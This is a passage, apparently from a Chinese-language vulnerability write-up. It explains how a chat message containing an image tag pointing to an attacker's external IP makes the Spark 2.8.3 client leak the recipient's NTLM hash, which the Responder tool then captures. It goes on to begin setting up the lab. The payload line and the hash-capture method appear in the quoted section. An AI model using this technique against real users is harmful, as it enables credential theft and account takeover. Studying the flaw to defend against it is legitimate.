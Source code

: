 > **当我们打开与另一个用户的聊天时，我们可以向该用户发送一个`<img` 标记，并使用外部 URL 作为该图像的来源，如下所示:**
> 
> **`<img src=[external_ip]/test.img>`**
> 
> **每次用户点击链接，或者 ROAR 模块自动预加载链接，外部服务器就会收到对图像的请求，以及来自访问链接的用户(即与你聊天的用户)的 NTLM 散列！**
> 
> **通过运行 responder，我们可以捕获散列，并使用它们来访问用户帐户和提升我们的权限(当然这取决于用户)。**

**为了利用这个漏洞，我从下载、安装和运行 [Spark 2.8.3 app](https://github.com/igniterealtime/Spark/releases) 开始。**

```
sudo dpkg -i spark_2_8_3.deb
```

**在启动 Spark 之后，我提供了凭证和域细节。**

**![](img/3836742b16706d5452a3f6ce53d04ccb.png)**

**Spark 登录。**

**我还需要进入高级设置并选中两个框，以避免出现证书错误。**
